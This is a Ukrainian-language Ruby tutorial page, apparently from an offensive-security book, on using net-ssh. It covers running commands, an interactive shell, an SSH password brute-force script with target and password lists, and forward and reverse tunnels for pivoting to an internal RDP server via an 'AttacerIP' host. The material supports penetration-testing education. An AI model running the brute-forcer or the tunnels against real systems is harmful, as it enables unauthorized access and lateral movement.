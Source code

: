 # SSH
Тут ми покажемо як працювати з SSH в Рубі. Для цього нам треб буде встановити гем net-ssh.

- Встановлення net-ssh
```
gem install net-ssh
```

## Простий запуск команди в SSH
Далі йде дуже простий SSH клієнт який відправляє і запускає команди на віддаленій системі:

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"
@cmd = ARGV[0]

begin
  ssh = Net::SSH.start(@hostname, @username, :password => @password)
  res = ssh.exec!(@cmd)
  ssh.close
  puts res
rescue
  puts "Unable to connect to #{@hostname} using #{@username}/#{@password}"
end
```

## SSH Клієнт з шелом PTY

Наступний код - простий SSH клієнт який yfдає нам интерактивний шел PTY

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"

Net::SSH.start(@hostname, @username, :password => @password, :auth_methods => ["password"]) do |session|

  # Відкриваємо канал SSH  
  session.open_channel do |channel|
    
    # Запитуємо pseudo-tty (or "pty") для інтерактивних програм(наприклад vim, sudo, etc)
    channel.request_pty do |ch, success| 
      raise "Error requesting pty" unless success 

      # Запитуємо тип каналу шелу
      ch.send_channel_request("shell") do |ch, success| 
        raise "Error opening shell" unless success
    	STDOUT.puts "[+] Getting Remote Shell\n\n" if success
      end
    end

    # Виводимо STDERRвіддаленого сервера на наш STDOUT
    channel.on_extended_data do |ch, type, data|
      STDOUT.puts "Error: #{data}\n"
    end

    # Коли пакети отримано
    channel.on_data do |ch, data|
      STDOUT.print data
      cmd = gets
      channel.send_data( "#{cmd}" ) 
      trap("INT") {STDOUT.puts "Use 'exit' or 'logout' command to exit the session"}
    end
    
    channel.on_eof do |ch|
      puts "Exiting SSH Session.."
    end
    
    session.loop
  end
end
```

## Бруто-форс SSH 

**ssh-bf.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'net/ssh'

def attack_ssh(host, user, password, port=22, timeout = 5)
  begin
    Net::SSH.start(host, user, :password => password, 
        		   :auth_methods => ["password"], :port => port, 
        		   :paranoid => false, :non_interactive => true, :timeout => timeout ) do |session|
      puts "Password Found: " + "#{host} | #{user}:#{password}" 
    end

  rescue Net::SSH::ConnectionTimeout
    puts "[!] The host '#{host}' not alive!"
  rescue Net::SSH::Timeout
    puts "[!] The host '#{host}' disconnected/timeouted unexpectedly!"
  rescue Errno::ECONNREFUSED
    puts "[!] Incorrect port #{port} for #{host}"
  rescue Net::SSH::AuthenticationFailed
    puts "Wrong Password: #{host} | #{user}:#{password}" 
  rescue Net::SSH::Authentication::DisallowedMethod
    puts "[!] The host '#{host}' doesn't accept password authentication method."
  end
end


hosts = ['192.168.0.1', '192.168.0.4', '192.168.0.50']
users = ['root', 'admin', 'rubyfu']
passs = ['admin1234', 'P@ssw0rd', '123456', 'AdminAdmin', 'secret', coffee]

hosts.each do |host|
  users.each do |user|     
    passs.each do |password|
      
      attack_ssh host, user, password
  
end end end
```

## Тунелювання SSH

### Перенаправлення SSH тунелю

```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| ----SSH Tunnel---> | |SSH Server| <-RDP-> |Web server| |
                              |                 |                 |
                              |-----------------|-----------------|
```

Запустіть ssh-ftunnel.rb на **SSH Сервері** 

**ssh-ftunnel.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("127.0.0.1", 'root', :password => '123132') do |ssh|

  ssh.forward.local('0.0.0.0', 3333, "WebServer", 3389)

  puts "[+] Starting SSH forward tunnel"
  ssh.loop { true }
end
```
Тепер підключіться до **SSH Серверу** на порту 3333 з допомогою вашого RDP клієнту. Ви побачите інтерфейс RDP логіну на **Вебсервері(WebServer)**

```
rdesktop WebServer:3333
```


### Зворотній SSH тунель 
```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| <---SSH Tunnel---- | |SSH Server| <-RDP-> |Web server| |
  |   |                       |                 |                 |
  `->-'                       |-----------------|-----------------|
```
Запустіть ssh-rtunnel.rb на **SSH Сервері** 

**ssh-rtunnel.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("AttacerIP", 'attacker', :password => '123123') do |ssh|

  ssh.forward.remote_to(3389, 'WebServer', 3333, '0.0.0.0')
  
  puts "[+] Starting SSH reverse tunnel"
  ssh.loop { true }
end
```
Тепер підключаєиося по SSH з **SSH Серверу** до **локальної машини(localhost)** на порту SSH локальної машини і далі підключаємося з вашого локального хоста до нього ж на порту 3333 за допомогою вашого RDP клієнту. Ви побачите інтерфейс RDP логіну на **Вебсервері(WebServer)**

```
rdesktop localhost:3333
```



## Копіювання файлів через SSH (SCP)

- Встановлення гему scp
```
gem install net-scp
```

- Завантаження файлу

```ruby
require 'net/scp'

Net::SCP.upload!(
    		        "SSHServer", 
                    "root",
                    "/rubyfu/file.txt", "/root/", 
                    #:recursive => true,    # Розкоментуйте для рекурсивної передачі
                    :ssh => { :password => "123123" }
                )
```

- Вивантаження файлу з сервера

```ruby
require 'net/scp'

Net::SCP.download!(
    		        "SSHServer", 
                    "root",
                    "/root/", "/rubyfu/file.txt",
                    #:recursive => true,   # Розкоментуйте для рекурсивної передачі
                    :ssh => { :password => "123123" }
                  )
```




<br><br><br>
---
- [More SSH examples](http://ruby.about.com/sitesearch.htm?q=ruby+ssh&boost=3&SUName=ruby)
- [Capistranorb.com](http://capistranorb.com/)
- [Net:SSH old docs with example](http://net-ssh.github.io/ssh/v1/chapter-6.html)



